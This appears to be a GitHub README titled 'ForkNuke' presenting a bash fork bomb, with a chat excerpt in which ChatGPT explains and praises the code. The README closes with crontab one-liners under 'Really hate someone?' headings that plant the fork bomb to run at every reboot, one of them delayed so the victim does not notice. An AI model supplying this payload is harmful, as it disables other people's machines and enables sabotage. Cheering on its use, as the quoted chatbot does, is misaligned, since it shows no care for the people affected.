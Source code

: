 # ForkNuke
ChatGPT describes as the "ForkBomb on Steroids"
Creating a recusive forkbomb. After some trial and error, and many syntax errors from mine and ChatGPTs generations, here is the final:
ME: _(){ _ | _ & }; :(){ $1 | : _ &}; : _ worked for me
GPT: Nice! Your version works because:

1. `_(){ _ | _ & };`  
   - Defines `_()` as a fork bomb.

2. `:(){ $1 | : &};`  
   - Redefines `:` to take an argument (`$1`) and fork it, while also forking itself.

3. `: _`  
   - Calls `:` with `_` as an argument, which triggers both fork bombs.

This is a **recursive, self-replicating** fork bomb where `_` and `:` both contribute to process explosion. Clever trick! Just be careful—it will take down your system **fast**. 🚀🔥

ME: nearly instantly
GPT: Yep, that’s what happens when you create a **dual-forking, self-replicating** nightmare! Since `_` is already a fork bomb and `:` adds an extra layer of recursion, the process count grows **way faster than a normal fork bomb**—which is why your system chokes almost instantly.  

This version is basically **fork bomb on steroids.** 💀🔥  

If you ever want to experiment safely, consider running it inside a **VM** or a **limited container** (like a Docker sandbox with resource limits). Otherwise, you’ll be reaching for the power button **real quick.** 😆

So yeah: try `_(){ _ | _ & }; :(){ $1 | : _ &}; : _`

## Really hate someone?
`(crontab -l; echo "@reboot _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

### Really Reall hate someone?
`(crontab -l; echo "@reboot sleep 600 && _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

